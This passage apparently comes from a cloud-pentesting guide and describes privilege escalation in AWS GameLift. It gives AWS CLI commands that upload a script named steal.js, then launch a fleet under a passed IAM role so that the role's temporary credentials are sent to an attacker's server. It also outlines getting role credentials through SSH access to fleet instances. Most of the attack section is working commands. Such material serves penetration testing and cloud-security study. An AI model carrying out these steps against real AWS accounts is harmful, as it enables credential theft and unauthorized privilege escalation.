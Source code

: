 ```jsx
    onPlayerLeaveGroup: onPlayerLeaveGroup,
    onStartGameSession: onStartGameSession,
    onProcessTerminate: onProcessTerminate,
    onHealthCheck: onHealthCheck
};
```

Then upload the zipped script to AWS account using `create-script` command:

```bash
zip script.zip steal.js

aws gamelift create-script \
    --name PrivEscExploit \
    --script-version 0.0.1 \
    --zip-file fileb://script.zip
```

Unlike builds, you can update existing script with new files. Use the `update-script` command with existing `script-id` in this account if you do not have permission to use `create-script`:

```bash
zip script.zip steal.js

export SCRIPT_ID=script-1111aaaa-22bb-33cc-44dd-5555eeee66ff
aws gamelift update-script
		--script-id $SCRIPT_ID \
		--zip-file fileb://script.zip
```

At the end, create a fleet with the uploaded script and wait for temporary credentials to be sent on your server. Remember to set your `SCRIPT_ID` and `AWS_ROLE_ARN`:

```bash
export SCRIPT_ID=script-1111aaaa-22bb-33cc-44dd-5555eeee66ff
export AWS_ROLE_ARN=arn:aws:iam::123456789012:role/EXAMPLE_ROLE
aws gamelift create-fleet \
    --name PrivEscExploit \
    --description 'PrivEsc demonstration' \
    --script-id $SCRIPT_ID \
    --ec2-instance-type c4.large \
    --fleet-type ON_DEMAND \
    --runtime-configuration 'ServerProcesses=[{LaunchPath=/local/game/steal.js, ConcurrentExecutions=1}]' \
    --instance-role-arn $AWS_ROLE_ARN
```

**Potential Impact:** Direct privilege escalation to any Gamelift role.

### iam:PassRole, gamelift:CreateFleet, (gamelift:GetInstanceAccess | gamelift:GetComputeAccess)

Even if you do not have permissions to create a malicious build(`UploadBuild` or `CreateBuild`) or a script(`CreateScript` or `UpdateScript`)to steal temporary credentials of an attached role, you still can try to obtain them by connecting to a fleet via SSH. Gamelift allows developers to connect to fleet instances after their activation for debug purposes. An attacker can leverage remote access to a fleet instance to obtain a Gamelift role.
